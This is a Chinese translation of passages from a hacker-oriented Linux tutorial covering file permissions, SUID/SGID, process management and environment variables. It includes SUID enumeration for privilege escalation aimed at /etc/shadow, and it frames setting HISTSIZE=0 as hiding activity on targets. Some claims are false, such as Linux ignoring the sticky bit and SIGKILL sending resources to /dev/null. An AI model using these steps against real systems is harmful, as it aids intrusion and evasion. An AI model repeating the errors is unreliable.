UGO语法非常简单。输入chmod命令，然后输入要更改权限的用户，为用户提供u，为组提供g，为其他用户提供o，或者输入三个运算符之一：

**-** 移除一个权限

**+** 添加一个权限

**=** 设置一个权限

在操作符之后，包括要添加或删除的权限（rwx），最后包含要应用它的文件的名称。

因此，如果要删除用户对hashcat.hcstat所属文件的写入权限，可以输入以下内容：

kali \>chmod u-w hashcat.hcstat

此命令表示从用户（u）中删除（ - ）hashcat.hcstat的write（w）权限。

现在，当您再次使用ls
-l检查权限时，您应该看到hashcat.hcstat文件不再具有该用户的写入权限：

kali \>ls -l

total 32952

drwxr­xr­x 5 root root 4096 Dec 5 10:47 charsets

­r­xr­xr­­ 1 root root 33685504 June 28 2018 hashcat.hcstat

­rw­r­­r­­ 1 root root 33685504 June 28 2018 hashcat.hctune

drwxr ­xr­x 2 root root 4096 Dec 5 10:47 masks

drwxr ­xr­x 2 root root 4096 Dec 5 10:47 OpenCL

drwxr ­xr­x 3 root root 4096 Dec 5 10:47 rules

您还可以使用一个命令更改多个权限。如果要同时为用户和其他用户（不包括组）授予执行权限，可以输入以下内容：

chmod u+x, o+x hashcat.hcstat

此命令告诉Linux为hashcat.hcstat文件添加用户的执行权限以及其他用户的执行权限。

#### *给新程序赋予root权限*

作为黑客，您经常需要下载新的黑客工具，但Linux会自动分配所有文件和目录的默认权限666和777。
这意味着，默认情况下，您下载文件将无法立即执行它。如果你尝试，你通常会得到一条消息，上面写着“*Permission
denied*”。对于这些情况，你需要给自己一个root身份并执行，使用chmod执行文件的权限。

例如，假设我们下载了一个名为newhackertool的新黑客工具，并将其放入root用户的目录（/）中。

kali \>ls -l

total 80

drwxr­xr­x 7 root root 4096 Dec 5 11.17 Desktop

drwxr­xr­x 7 root root 4096 Dec 5 11.17 Documents

drwxr­xr­x 7 root root 4096 Dec 5 11.17 Downloads

drwxr­xr­x 7 root root 4096 Dec 5 11.17 Music

­rw­r­­r­­ 1 root root 1072 Dec 5 11.17 newhackertool➊

drwxr­xr­x 7 root root 4096 Dec 5 11.17 Pictures

drwxr­xr­x 7 root root 4096 Dec 5 11.17 Public

drwxr­xr­x 7 root root 4096 Dec 5 11.17 Templates

drwxr­xr­x 7 root root 4096 Dec 5 11.17 Videos

我们可以在➊看到newhackertool，以及根目录的其他内容。我们可以看到我们的newhackertool没有任何人的执行权限
这使得无法使用。可能看起来很奇怪，默认情况下，Linux不允许您执行下载的文件，但总体而言，此设置使您的系统更安全。

我们可以通过输入以下内容来允许自己执行newhackertool：

kali \>chmod 766 newhackertool

现在，当我们在目录上执行list时，我们可以看到我们的newhackertool具有对所有者的执行权限：

kali \>chmod 766 newhackertool

kali \>ls -l

total 80

drwxr­xr­x 7 root root 4096 Dec 5 11.17 Music

­rwxrw­rw­ 1 root root 1072 Dec 5 11.17 newhackertool

drwxr­xr­x 7 root root 4096 Dec 5 11.17 Pictures

正如您现在所理解的，这将授予我们（作为所有者）所有权限，包括执行权限，并授予该组以及其他所有人只有读写权限（4
+ 2= 6）。

### 赋予默认的安全级别权限

如您所见，Linux自动分配基本权限（通常为文件666和目录777）。您可以使用umask（或unmask）方法更改分配给每个用户创建的文件和目录的默认权限。umask方法表示要从文件或目录的基本权限中删除的权限，以使其更安全。

umask是对应于三个权限数字的三位十进制数字，但是从权限编号中减去umask编号以提供新的权限状态。这意味着当创建新文件或目录时，它权限设置为默认值减去umask中的值，如图5-1所示。

*图5­1: umask值022如何影响新文件和目录的权限*

例如，如果umask设置为022，则具有原始默认权限666的新文件现在将具有权限644，这意味着所有者具有读取和写入权限，并且该组和所有其他用户仅具有读取权限。

在Kali中，与大多数Debian系统一样，umask预先配置为022，这意味着Kali默认值为644，文件为755，目录为755。

umask值对于系统上的所有用户都不是通用的。每个用户都可以为其个人.profile文件中的文件和目录设置个人默认umask值。要以用户身份登录时查看当前值，只需输入命令umask并记下返回的内容。要更改用户的umask值，请编辑该文件/home/username/.profile，例如，添加umask
007进行设置，以便只有用户和用户组的成员才具有权限。

### 特别权限

除了三个通用权限rwx，Linux还有三个特殊权限，稍微复杂一些。这些特殊权限是设置用户ID（或SUID），设置组ID（或SGID）和粘滞位。我将在接下来的三个部分中依次讨论每个部分。

#### *使用SUID授予临时root权限*

正如您现在应该知道的那样，用户只有在有权执行该特定文件时才能执行该文件。如果用户只具有读取和（或）写入权限，则无法执行。这可能看起来很简单，但这条规则有例外。

你可能遇到过这样一种情况：文件在被所有用户（即使非root用户）执行期间都需要root用户的权限。例如，允许用户更改其密码的文件需要访问/etc/shadow（Linux中保存用户密码的文件），该文件需要root用户权限才能执行。在这种情况下，通过在程序上设置SUID位，可以临时授予所有者执行文件所需的特权。

基本上，SUID位表示任何用户都可以使用所有者的权限来执行该文件，但这些权限不会超出使用该文件的范围。

要设置SUID位，请在常规权限之前输入4，因此当设置SUID位时，具有644的新结果权限的文件表示为4644。

#### *使用SGID授予Root用户组权限*

SGID授予临时权限，但它授予文件所有者组的权限，而不是文件所有者的权限。这意味着，设置SGID位，没有执行权限的人可以执行文件，如果所有者属于有权执行该文件的组。

应用于目录时，SGID位的工作方式略有不同：当该位置位时在目录中，在该目录中创建的新文件的所有权将转到目录创建者的组，而不是文件创建者的组。当多个用户共享目录时，这非常有用。该组中的所有用户都可以执行文件，而不仅仅是单个用户。

SGID位在常规权限之前表示为2，因此当SGID位置位时，具有结果权限644的新文件将表示为2644。
同样，您可以使用chmod命令（例如，chmod 2644 filename）。

#### *过时的粘滞位*

粘滞位是您可以在目录上设置的权限位，以允许用户删除或重命名该目录中的文件。然而，粘性位是旧Unix系统的遗留物，现代系统（如Linux）忽略了它。因此，我不会在这里进一步讨论，但你应该熟悉这个术语，因为你可能会在Linux世界中听到它。

#### *提权*

作为黑客，这些特殊权限可用于通过权限提升来利用Linux系统，从而使普通用户获得root或sysadmin权限以及相关权限。使用root权限，您可以在系统上执行任何操作。

一种方法是利用SUID位。系统管理员或软件开发人员可以在程序上设置SUID位，以允许该程序访问具有root权限的文件。例如，需要更改密码的脚本通常具有SUID位设置。作为黑客，您可以使用该权限获取临时root权限并执行恶意操作，例如访问/etc/shadow中的密码。

让我们在我们的Kali系统上查找设置了SUID位的文件来试试这个。回到第1章，我向你介绍了find命令。我们将使用它的功能来查找SUID位设置的文件。

你会记得，find命令功能强大，但语法比其他一些定位命令要复杂一些，比如locate和which。如果需要，请查看第1章中的find语法。

在这种情况下，我们希望在文件系统的任何位置查找文件，对于root用户或其他sysadmin，具有权限4000。为此，我们可以使用以下**find**命令：

kali \>find / -user root -perm -4000

使用此命令，我们要求Kali开始使用/语法查看文件系统的顶部。然后，它会在/下面找到由root拥有的文件，用户root指定的文件以及设置了SUID权限位的文件（-perm
-4000）。

当我们运行此命令时，我们得到输出显示在清单5-2中。

/usr/bin/chsh

/usr/bin/gpasswd

/usr/bin/pkexec

/usr/bin/sudo

/usr/bin/passwd

/usr/bin/kismet_capture

­­snip­­

*清单 5­2: 通过SUID位查找文件*

输出显示了许多具有SUID位设置的文件。让我们进入/usr/bin目录，其中包含许多这些文件，然后在其上运行一个长列表目录并向下滚动到sudo文件，如*清单*5-3所示。

kali \>cd /usr/bin

kali \>ls -l

­rwxr­xr­x 1 root root 176272 Jul 18 2018 stunnel4

­rwxr­xr­x 1 root root 26696 Mar 17 2018 sucrack

➊­rwsr­xr­x 1 root root 140944 Jul 5 2018 sudo

*清单5­3: 通过SUID识别文件*

请注意➊，所有者的第一组权限（具有s代替x）。这就是Linux表示SUID位已设置的方式。这意味着任何人跑sudo文件具有root用户的权限，这可能是系统管理员的安全问题，也可能是黑客的潜在攻击媒介。
例如，某些应用程序需要访问/etc/shadow文件才能成功完成其任务。如果攻击者可以控制该应用程序，他们可以使用该应用程序访问Linux系统上的密码。

Linux具有良好的安全系统，可保护文件和目录免受未经授权的访问。
有抱负的黑客需要对该系统有基本的了解，不仅要保护他们的文件，还要执行新的工具和文件。
在某些情况下，黑客可以利用SUID和SGID权限来升级来自普通用户的权限到root用户。

### 总结

Linux使用权限来保护用户或组的文件和目录免受系统中其他用户的攻击，可用于攻击性和防御性目的。
您现在应该知道如何管理这些权限以及如何利用此弱点来攻击系统（特别是SUID和SGID位）。

6
-

进程管理
--------

PROCESS MANAGEMENT

在任何时间，Linux系统通常同时运行数百个，甚至数千个进程。进程只是一个正在运行和使用资源的程序。它包括终端，Web服务器，任何正在运行的命令，任何数据库，GUI界面等等。任何优秀的Linux管理员（特别是黑客）都需要了解如何管理他们的流程以优化他们的系统。例如，一旦黑客控制了目标系统，他们可能想要找到并停止某个进程，如防病毒应用程序或防火墙。为此，黑客首先需要知道如何找到该过程。黑客可能还想设置一个扫描脚本来定期运行以查找易受攻击的系统，因此我们还将研究如何安排这样的脚本。

在本章中，您将学习如何管理这些过程。首先，您将学习查看和查找流程以及如何发现哪些流程使用的资源最多。然后，您将学习如何通过在后台运行流程来管理流程，确定流程优先级，并在必要时将其删除。最后，您将学习如何安排在指定日期和日期以及特定时间运行的进程。

### 查看进程

在大多数情况下，管理进程的第一步是查看系统上正在运行的进程。**ps**命令是用于查看进程的主要工具。
在命令行中运行它以查看哪些进程处于活动状态：

kali \>ps

PID TTY TIME CMD

39659 pts/0 00:00:01 bash

39665 pts/0 00:00:00 ps

Linux内核是操作系统的核心，在创建进程时按顺序为每个进程分配一个唯一的进程ID（PID）。在Linux中使用这些进程时，通常需要指定它们的PID，因此进程的PID比进程的名称更重要。当没有使用参数的时候，**ps**命令并没有真正为您提供太多信息。

当前登录的用户（在我们的例子中是root）以及该终端上正在运行的进程。在这里，它只是说bash
shell是打开并运行的，我们使用了**ps**命令。我们想要并且需要更多的信息，尤其是关于这些进程由其他用户和后台系统运行。如果没有这些信息，我们对系统实际发生的情况知之甚少。使用选项aux运行ps命令将显示在其上运行的所有进程

系统适用于所有用户，如清单6-1所示。请注意，您不要在这些选项前添加前缀

使用短划线（ -
）并且所有内容都是小写的，因为Linux是大小写敏感的，所以使用大写选项会给你带来截然不同的结果。

kali \>ps aux

USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND

Root 1 0.0 0.4 202540 6396 ? Ss Apr24 0:46 /sbin/init

Root 2 0.0 0.0 0 0 ? S Apr24 0:00 [kthreadd]

Root 3 0.0 0.0 0 0 ? S Apr24 0:26 [ksoftirqd/0]

­­snip­­

root 39706 0.0 0.2 36096 3204 pts/0 R+ 15:05 0:00 ps aux

*清单6­1: 使用aux 参数查看进程*

正如您所看到的，此命令现在列出了很多进程，它们可能会在屏幕底部运行。一个进程是init，列在最后一列，最后一个进程是我们运行显示的命令，**ps
aux**。许多细节（PID，％CPU，TIME，COMMAND等）可能在您的系统上有所不同，但应具有相同的格式。出于我们的目的，以下是此输出中最重要的列：

**USER** 进程用户

**PID** 进程id

%**CPU** CPU占用率

**%MEM** 进程CPU占用率

**COMMAND** 进程名

通常，要对进程执行任何操作，我们必须指定其PID。让我们看看如何使用这个标识符对我们更便利。

#### *通过进程名过滤进程*

当我们对进程执行操作时，我们通常不希望屏幕上显示所有进程细节。这是一个信息太多的问题。通常，我们希望查找有关单个进程的信息。为此，我们可以使用过滤命令**grep**，我在第1章中介绍过。

为了演示，我们将使用最广泛使用的开发框架和几乎每个黑客的好朋友Metasploit框架。这将安装在您的Kali系统上，因此请使用以下命令启动Metasploit：

kali \>msfconsole

开始使用Metasploit框架，让我们看看我们是否可以在进程列表中找到它。为此，请使用**ps
aux**命令，然后将其（\|）传递给grep寻找字符串msfconsole，如清单图6-2：

kali \>ps aux \| grep msfconsole

root 39756 0.0 0.0 4304 716 pts/2 Ss+ 15:13 0:00 sh ­c service postgresql start
&& msfdb init & msfconsole

root 39759 35.1 15.2 4304 227888 pts/2 Sl+ 15:13 1:36 ruby /usr/bin/ msfconsole

root 39892 0.0 0.0 4304 940 pts/2 S+ 15:18 0:00 grep msfconsole

*清单 6­2:过滤特定进程*

从此列表中的筛选输出中，您应该看到与术语**msfconsole**匹配的所有进程。首先显示PostgreSQL数据库是Metasploit使用的数据库，然后是来自/usr/bin/msfconsole的msfconsole程序。最后，你应该看到用于查找msfconsole的grep命令。请注意，输出不包含ps的列标题列表。由于关键字msfconsole不在标题中，因此不会显示。即便如此，结果也以相同的格式显示。

从这里，您可以了解一些重要信息。例如，如果您需要知道Metasploit正在使用多少资源，您可以查阅第三列（CPU列），看它是否使用了35.1％的CPU，并参考第四列以查看它是否使用了15.2%的系统内存

#### *通过top命令查找资源占用率过高的进程*

输入ps命令时，进程按其顺序显示启动后，由于内核按照启动顺序分配PID，所以您看到的是按PID编号排序的进程。

在许多情况下，我们想知道哪些进程使用了最多的资源。这就是top命令派上用场的地方，因为它显示按使用的资源排序的进程，从最大的进程开始。与ps命令不同的是，top命令每10秒动态刷新一次列表，而ps命令只提供一次进程快照。您可以监视和监视那些需要资源的进程，如清单6-3所示。

kali \>top

top ­ 15:31:17 up 2 days, \^;50, 4 users, load average: 0.00, 0.04, 0.09

Tasks: 176 total, 1 running, 175 sleeping, 0 stopped, 0 zombie

%Cpu(s): 1.3 us, 0.7 sy, ).) ni, 97.4 id, 0.0 wa, 0.0 hi 0.0 si 0.0

KiB Mem : 1491220 total, 64848 free, 488272 used, 938100 buff/cache

KiB Swap : 1046524 total, 1044356 free, 2168 used. 784476 avail MEM

PID USER PR NI VIRT RES SHR S %CPU %MEM TIME+ COMMAND

39759 root 20 0 893180 247232 11488 S 0.7 16.6 1:47.88 ruby

39859 root 20 0 27308 16796 14272 S 0.3 1.2 1:47.88 postgres

39933 root 20 0 293936 61500 29108 S 0.7 4.1 1:47.88 Xorg

­­snip­­

*清单6­3: 通过 top 查找资源消耗最多的进程*

系统管理员经常让top在终端中运行，以监视进程资源的使用。作为一名黑客，您可能也想这样做，特别是在您的系统上运行多个任务时。当你运行top时，按下H还是?按键将弹出一个交互式命令列表，按下Q键将退出top。不久您将再次使用top来管理您的进程，在下一小节的“*使用nice命令改变进程优先级*”和
“*终止进程*”中。

### 管理进程

黑客经常需要多进程运行多个程序，像Kali
Linux这样的操作系统是理想的。黑客可能在运行漏洞扫描程序和攻击时同时运行端口扫描程序。这要求黑客有效地管理这些程序，以最好地利用系统资源并完成任务。
在本节中，我将向您展示如何管理多个进程。

#### *使用nice命令改变进程优先级*

在黑客的语境中，你不会经常听到nice这个词，但在这里你会听到。nice命令用于影响进程对内核的优先级。正如您在运行ps命令时看到的，系统上同时运行着许多进程，它们都在争夺可用的资源。内核将对进程的优先级拥有最终决定权，但是您可以使用nice建议提高进程的优先级。

使用nice这个术语背后的想法是，当您使用它时，您将决定对其他用户有多“好”：如果您的进程使用了大部分系统资源，那么就会对其他进程产生影响。

nice的值范围从-20到+19，默认值为0(参见图6-1)。高nice值为低优先级，低nice值为高优先级(当您对其他用户和进程不太友好时)。当进程启动时，它继承其父进程的nice值。进程的所有者可以降低进程的优先级，但不能增加其优先级。当然，超级用户或根用户可以随意将nice值设置为他们喜欢的任何值。

*图6­1: nice优先级数值*

启动进程时，可以使用nice命令设置优先级，然后在使用renice命令开始运行进程后更改优先级。这两个命令的语法略有不同，可能会令人困惑。nice命令要求增加nice值，而renice命令要求niceness的绝对值。让我们看一个例子来证明这一点。

##### 在运行进程时设置优先级

出于演示目的，我们假设我们有一个名为slowprocess的进程位于/ bin /
slowprocess。如果我们希望它加速执行完成，我们可以使用nice命令启动该过程：

kali \>nice -n -10 /bin/slowprocess

此命令会将nice值递增-10，从而增加其优先级并为其分配更多资源。

另一方面，如果我们想要对我们的用户和流程很好，并给予slowprocess一个较低的优先级，我们可以将其好的值正增加10：

kali \>nice -n 10 /bin/slowprocess

尝试一下当前正在运行的进程，然后运行ps以查看它是如何更改的，如果有的话。

#### *使用renice命令改变正在运行的进程优先级*

renice命令采用介于-20和19之间的绝对值，并将优先级设置为该特定级别，而不是从其开始的级别增加或减少。此外，renice需要您所针对的进程的PID而不是名字。因此，如果slowprocess在您的系统上使用过多的资源
，并且你想给它一个较低的优先级，从而允许其他进程具有更高的优先级和更多的资源，你可以重新设置slowprocess（PID为6996）并给出一个更高的值，如下：

kali \>renice 20 6996

与nice一样，只有root用户可以将进程重新设置为负值以赋予其更高的优先级，但任何用户都可以使用renice来降低优先级。

您还可以使用top工具更改nice值。随着top运行，只需按R键，然后提供PID和nice值。如清单6-4中top正在运行，当我按下R键并提供PID和nice值时，我得到以下输出：



*清单 6­4: 通过top改变nice值*

当我按下R键时，我被要求带有文本renice PID [value]的PID➊值。
然后应该改变输出以反映新的优先级。

#### *终止进程*

有时，进程会消耗太多的系统资源，表现出异常的行为，或者假死。表现出这种行为的过程通常被称为僵尸过程。对你来说，最有问题的症状可能是僵尸进程使用的浪费资源，可以更好地分配给有用的进程。

当您确定有问题的进程时，您可能希望使用kill命令来阻止它。有许多不同的杀死程序的方法，每个方法都有自己的进程选项（数字）。

kill命令有64种不同的kill标志，每种标志略有不同。在这里，我们专注于您可能会发现最有用的一些参数，kill命令是*kill-signal
PID*，其中标志开关是可选的。如果你不提供信号标志，默认为SIGTERM。能够列出常见的kill标志。

表 6­1: 常用的kill标志信号

| **标志** | **选项参数** | **描述**                                                                                                                                       |
|----------|--------------|------------------------------------------------------------------------------------------------------------------------------------------------|
| SIGHUP   | 1            | 这称为挂起（HUP）标志信号。它会停止指定的进程并使用相同的PID重新启动它。                                                                       |
| SIGINT   | 2            | 这是中断（INT）信号。这是一个弱信号，不能保证工作，但它在大多数情况下都有效。                                                                  |
| SIGQUIT  | 3            | 这称为核心转储。它终止进程并将进程信息保存在内存中，然后将此信息保存在当前工作目录中的一个名为core的文件中。（这样做的原因超出了本书的范围。） |
| SIGTERM  | 15           | 这是终止（TERM）信号。这是kill命令的默认kill信号。                                                                                             |
| SIGKILL  | 9            | 这是强制终止信号。它通过将进程的资源发送到特殊位置/dev/null来强制进程停止。                                                                    |

使用top命令，您可以识别哪些进程使用了太多资源，通常，这些进程是合法的，但可能有恶意进程占用资源，您想要杀死此进程。

如果您只想使用HUP信号重新启动进程，请使用kill输入-1选项，如下所示：

kali \>kill -1 6996

对于僵尸或恶意进程，您可能发送kill -9信号。

kali \>kill -9 6996

如果您不知道进程的PID，则可以使用killall命令终止进程。此命令将进程的名称（而不是PID）作为参数。

例如，您可以终止假设的僵尸进程，如下所示

\>killall -9 zombieprocess

最后，您还可以在top命令中终止进程。只需按K键，然后输入需要终止进程的PID。

#### *在后台运行进程*

在Linux中，无论您是使用命令行还是GUI，您都在shell中工作。所有运行的命令都是从该shell中执行的，即使它们是从图形界面运行的。执行命令时，shell会等待命令完成，然后再提供另一个命令提示符。

有时，您可能希望进程在后台运行，而不必等待它在该终端中完成。例如，假设我们想在文本编辑器中处理脚本，因此通过输入以下内容调用我们的文本编辑器（leafpad）：

kali \>leafpad newscript

当然，我们可以打开另一个终端来运行更多命令，但更好的选择是节省资源和屏幕空间是启动在后台运行的文本编辑器。在后台运行进程只意味着它将继续运行而无需终端
通过这种方式，终端可以免除其他职责。

要在后台启动文本编辑器，只需在命令末尾添加一个与号（＆），如下所示：

kali \>leafpad newscript &

现在，当文本编辑器打开时，终端返回一个新的命令提示符，这样我们就可以在系统上输入其他命令，同时编辑我们的新闻稿。这对于您希望使用终端时可能会运行很长时间的任何进程都有效。
作为黑客，您会发现这对于运行多个具有多个任务的终端非常有用，可以节省资源和屏幕空间。

#### *把后台运行的进程移到前台*

如果要将在后台运行的进程移动到前台，可以使用fg（foreground）命令。
fg命令需要您想要返回到前台的进程的PID，如下所示。

kali \>fg 1234

如果我们不知道具体的pid，我们可以使用ps 命令查看。

### 定时执行程序

Linux系统管理员和黑客通常都需要安排在一天中的特定时间运行的进程。例如，系统管理员可能希望安排系统备份在每个星期六晚上2点运行。黑客可能希望设置一个脚本来运行以定期执行侦察，找到开放端口或漏洞。在Linux中，您可以通过至少两种方式实现此目的：使用at和crond。

**at**命令是守护进程（后台进程）对于将作业安排在将来的某个时刻运行一次非常有用。crond更适合于安排任务每天，每周或每月发生，我们将在第16章详细介绍。我们使用**at**守护进程来安排将来执行命令或命令集。语法只是**at**命令，后跟执行时间处理。时间参数可以各种方式提供。

表 6­2: 命令行可用的时间格式

| **时间格式**         | **含义**                               |
|----------------------|----------------------------------------|
| at 7:20pm            | 计划于当天晚上7:20运行                 |
| at 7:20pm June 25    | 计划于6月25日晚上7点20分开始运行       |
| at noon              | 计划在当天中午运行                     |
| at noon June 25      | 计划于6月25日中午开始运行              |
| at tomorrow          | 计划明天运行                           |
| at now + 20 minutes  | 计划从当前时间起20分钟内运行           |
| at now + 10 hours    | 计划从当前时间起10小时内运行           |
| at now + 5 days      | 计划从当前日期起五天内运行             |
| at now + 3 weeks     | 计划从当前日期起三周内运行             |
| At 7:20pm 06/25/2019 | 计划于2019年6月25日晚上7点20分开始运行 |

当您使用指定的时间进入**at**守护进程时，进入交互模式时，您会看到at\>提示符。您可以在此处输入要在指定时间执行的命令：

kali \>at 7:20am

at \>/root/myscanningscript

此代码片段将安排myscanningscript今天上午7:20执行。

### 总结

管理Linux中的进程是每个Linux用户和黑客的技能。您必须能够查看，查找，终止，确定优先级并让进程以最佳方式运行。黑客通常需要在他们想要杀死的目标上找到进程，例如防病毒软件或防火墙。他们还需要管理攻击中的多个进程并确定其优先级。

7
-

管理用户环境变量
----------------

MANAGING USER ENVIRONMENT VARIABLES

为了充分利用Linux来入侵系统，您需要了解环境变量，并熟练地管理它们，以获得最佳的性能、便利性，甚至是隐匿性。然而，在Linux新手发现有问题的领域中，管理用户环境变量可能是最难掌握的。从技术上讲，有两种类型的变量：**shell**和环境变量。环境变量是构建在系统和接口中的系统范围的变量，它们控制用户对系统的外观、行为和“感觉”，并且它们由任何子shell或进程继承。另一方面，Shell变量通常以小写形式列出，并且只在它们所设置的Shell中有效。为了避免过度解释，我在这一章中只介绍了环境变量和shell变量的一些最基本和有用的技巧，并没有深入讨论它们之间的区别。

变量只是键值对中的字符串。通常，每一对看起来都像KEY=value。在有多个值的情况下，它们看起来像KEY=value1:value2。与Linux中的大多数东西一样，如果值中有空格，则需要包含在引号中。在Kali
Linux中，您的环境就是您的bash
shell。每个用户，包括根用户，都有一组默认的环境变量，这些环境变量决定了系统的外观、行为和感觉。您可以更改这些变量的值，使您的系统更有效地工作，调整您的工作环境以最好地满足您的个人需求，如果需要，还可以覆盖您的痕迹。

### 查看和修改环境变量

您可以查看所有默认的环境变量，方法是在终端的任意目录下输入**env**，如下所示:

kali \>env

XDG_VTNR=7

SSHAGENT_PID=922

XDG_SESSION_ID=2

XDG_GREETER_DATA_DIR=/var/lib/lightdm/data/root

GLADE_PIXMAP_PATH=:echo

TERM=xterm

SHELL=/bin/bash

­­snip­­

USER=root

­­snip­­

PATH=/usr/local/sbin :usr/local/bin:/usr/sbin:/sbin/bin

­­snip­­

HOME=/root

­­snip­­

环境变量总是大写的，如HOME、PATH、SHELL等等。这些只是系统上的默认环境变量。用户还可以创建自己的变量，正如您将看到的，我们需要一个不同的命令来在输出中包含这些变量。

#### *查看所有环境变量*

要查看所有环境变量，包括shell变量、本地变量和shell函数(如任何用户定义的变量和命令别名)，请使用**set**命令。此命令将列出系统特有的所有环境变量，在大多数情况下，这些变量将给出很长的一串输出，因此您无法在单个屏幕上查看所有这些变量。您可以使用**set**请求以更容易访问的方式逐行查看每个变量，并将其传递到**more**命令，如下所示:

kali \>set \| more

BASH=/bin/bash

BASHOPTS=checkwinsize:cmdlist:complete_fullquote:expand_aliases:extglob.....

BASH_ALIASES=()

BASH_ARGC=()

BASH_ARGV=()

­­snip­­

现在，变量列表将一行一行地填充一个屏幕，然后停止。当你按回车键时，终端会转到下一行，带你进入下一个变量，因此，您可以通过按下或按住回车键滚动。你可以回想在第二章，当你使用更多的输出指令时，您可以输入**q**来quit(或者exit)并返回到命令提示符。

#### *特定变量的过滤*

虽然使用**set**
和**more**可以提供比单独设置的大量变量名称更容易管理的结果，但如果你正在寻找一个特定的变量，它仍然会相当繁琐。相反，您可以使用过滤命令**grep**来查找您感兴趣的变量。

我们以变量HISTSIZE为例。此变量包含命令历史记录文件存储的最大命令数。这些命令是您之前在此会话中键入命令提示符的任意命令，可以使用向上和向下键来调用。请注意，HISTSIZE不会存储命令本身，只存储可以存储的命令数。

用grep管道你的set输出来找到HISTSIZE变量，如下所示：

kali \>set \| grep HISTSIZE

HISTSIZE=1000

如您所见，此命令查找变量HISTSIZE并显示其值。此变量的默认值可能在您的系统上设置为1000。这表示终端默认存储最后1,000条命令。

#### *更改会话的变量值*

现在让我们看看如何更改变量的值。如上所述，HISTSIZE变量包含要存储在历史文件中的命令数的值。
有时，您不希望系统保存过去的命令 -
可能是因为您不希望在自己的系统或目标系统上留下任何活动证据。
在这种情况下，您可以将HISTSIZE变量设置为0，这样系统就不会存储您以前的任何命令。由于此变量具有单个值，因此要更改它，请按照清单7-1中所示的熟悉方式为其分配新值。

kali \>HISTSIZE=0

*清单7-1：更改HISTSIZE的值*

现在，当您尝试使用向上和向下箭头键来调用命令时，没有任何反应，因为系统不再存储它们。这是隐秘的，虽然它可能不方便。

#### *使变量值永久更改*

当你改变一个环境变量,变化只发生在特定的环境;在本例中,环境是bash
shell会话。这意味着，当您关闭终端时，您所做的任何更改都将丢失，并将值设置回默认值。如果你想要永久更改,你需要使用**export**命令。这个命令将把当前环境(bash
shell)中的新值导出到系统的其余部分，使其在每个环境中都可用，直到您更改并再次导出它为止。

变量是字符串，所以如果您在谨慎的情况下运行，在修改变量之前将其内容保存到文本文件中并不是一个坏主意。例如，由于我们将要更改**PS1**变量，它控制您在提示符中显示的信息，所以首先运行以下命令，将现有值保存到当前用户的主目录中的文本文件中:

kali \>echo \$HISTSIZE\> \~/valueofHISTSIZE.txt

这样，您总是可以撤消更改。如果你想更谨慎地创建一个文本文件，使用所有当前设置，你可以将**set**命令的输出保存到一个文本文件中，命令如下:

kali \>set\> \~/valueofALLon01012017.txt

如清单7-1所示，在您更改了一个变量之后，您可以通过输入**export**，然后输入您更改的变量的名称来永久更改，如下所示:

kali \>export HISTSIZE

现在，当您离开这个环境并进入另一个环境时，HISTSIZE变量仍然被设置为0。如果您想重置HISTSIZE变量为1000，只需输入以下内容:

kali \>HISTSIZE=1000

kali \>export HISTSIZE

这段代码将把HISTSIZE变量的值设置为1,000，并将其导出到所有环境中。

### 更改SHELL提示符

shell提示符是另一个环境变量，它为您提供有用的信息，例如您正在操作的用户和当前工作的目录。Kali中的默认shell提示符采用以下格式:

username\@hostname:current_directory

如果您是根用户，这将转换为以下默认提示符:

root\@kali:current_directory

您可以通过设置**PS1**变量的值来更改默认shell提示符中的名称。**PS1**变量有一组占位符，用于显示希望在提示符中显示的信息，包括以下内容:

\\u  当前用户的名称

\\h  主机名

\\W  当前工作目录的基本名称

如果您恰好在多个系统上有shell，或者作为多个帐户登录，这将非常有用。通过为不同的shell或帐户设置不同的\\u和\\h值，您可以一眼看出您是谁以及您当前的系统是什么。

让我们找点乐子，更改一下终端中的提示符。例如，您可以输入以下内容:

kali \>PS1="World's Best Hacker: \#"

World's Best Hacker: \#

现在，每次你使用这个终端，你都会被提醒你是“世界上最好的黑客”。但是，您打开的任何后续终端仍然会有默认的命令提示符，因为**PS1**变量只保存您的终端会话的值。记住，在导出变量之前，它只适用于该会话。如果你真的喜欢这个新的命令提示符，并希望在每个终端都能看到它，你需要将它导出，如下所示:

kali \>export PS1

这将使更改在所有会话中永久保存。

再来点乐子怎么样?假设您真的希望您的终端看起来像一个Windows
cmd提示符。在本例中，您可以将提示符名称更改为C:并保留\\w以让提示符显示当前目录，如清单7-2所示。

kali \>export PS1='C:\\w\> '

C:/tmp\>

*清单7-2:更改提示并显示当前目录*

提示符显示当前目录通常是有用的，特别是对于初学者，所以在更改PS1变量时要考虑这一点。

### 改变你的PATH

在您的环境中，最重要的变量之一是PATH变量，它控制您的shell将在系统的哪个位置查找您输入的命令，比如cd、ls和echo，大多数命令位于sbin或bin子目录中，比如/usr/local/sbin或usr/local/bin。如果bash
shell没有在PATH变量中的某个目录中找到该命令，它将返回“未找到错误”命令，即使该命令确实存在于路径之外的目录中。

你可以找到哪些目录存储在你的路径变量使用echo的内容，如:

kali \>echo \$PATH

/usr/local/sbin:usr/local/bin:/usr/sbin:/sbin/bin

这些是您的终端将搜索任何命令的目录。例如，当您输入**ls**时，系统知道在这些目录中查找ls命令，当它找到ls时，系统就执行它。

每个目录由冒号(:)分隔，不要忘记将\$ content符号添加到PATH中。

#### *添加到PATH变量*

可以看出为什么知道PATH变量中的内容很重要:如果您下载并安装了一个新工具（比方说newhackingtool）到/root/newhackingtool目录中，您只能在该目录中使用该工具的命令，因为该目录不在PATH变量中。每次您想使用该工具时，首先必须导航到/root/newhackingtool，如果您想经常使用该工具，这有点不方便。

要从任何目录中使用此新工具，您需要将包含此工具的目录添加到PATH变量中。

要向PATH变量添加newhackingtool，请输入以下命令:

kali \>PATH=\$PATH:/root/newhackingtool

这将原始路径变量加上/root/newhackingtool目录分配给新路径变量，因此该变量包含它之前所做的所有事情，以及新工具目录。

如果再次检查PATH变量的内容，应该会看到这个目录已经被添加到PATH的末尾，如下所示:

kali \>echo \$PATH

/usr/local/sbin:usr/local/bin:/usr/sbin:/sbin/bin:/root/newhackingtool

